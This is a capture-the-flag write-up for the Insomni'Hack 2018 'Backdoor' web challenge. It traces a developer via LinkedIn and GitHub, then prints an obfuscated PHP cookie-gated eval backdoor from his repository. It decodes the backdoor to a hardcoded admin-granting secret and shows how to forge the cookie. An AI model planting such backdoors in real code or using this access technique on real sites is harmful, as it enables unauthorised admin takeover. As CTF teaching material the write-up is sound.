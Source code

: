 ```yaml
---
title: Insomni'Hack 2018 - Backdoor
layout: writeup
authors: Guillaume_Lopes
---
```

Solves: 25 / Points: 124


## Challenge description
Hello shady hacker, I represent a web development company trying to grow in Geneva, but unfortunately we're running into a lot of competition. One company in particular is stealing all our clients and we'd like you to hack them to obliterate their reputation and show that they are terrible developers. Here is one of their websites. Can you break in and prove that they suck?



## Challenge resolution


When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:

* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name:
![James Linkedin Profile]({{ site.url }}/assets/james.png)

When looking on a GitHub, we can find only one user with the company name:

* https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:
```php
<?php
if(isset($_COOKIE['wwwadmin'])) {
        $code="y0zTSK/KzEvLSSxJ1UhKLE41M4lPSU3OT0nVUIl39vf39nSNVi8vL09Myc3MU4/V1FSwtbVVUCo2Ti4yLolPSkzOTjEwKIovyY9PzMmJL0hMTy1WVNJUqObiVIkPdg0O9vT3i1bPTFGPVbBVMLRGEYUaCZGoBQA=";
        eval(gzinflate(base64_decode($code)));
}
?>
```

In order to retrieve the value of $code variable, we just modified `eval` function with `echo` and we obtained the following code:
```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name `wwwadmin` with the value "s3cr3t_backd00r_to_all_pages!" compressed with Gzip and encoded in base64.
It's just one line of PHP:
```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

![Flag]({{ site.url }}/assets/backdoor-flag.png)
